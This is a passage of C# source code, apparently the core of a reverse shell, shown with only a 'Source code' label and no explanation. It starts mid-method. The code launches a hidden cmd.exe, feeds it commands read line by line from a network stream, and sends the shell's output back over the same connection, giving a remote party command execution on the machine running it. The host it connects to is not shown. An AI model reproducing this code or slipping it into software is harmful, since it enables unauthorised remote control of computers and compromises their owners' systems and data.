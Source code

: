 ```csharp
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
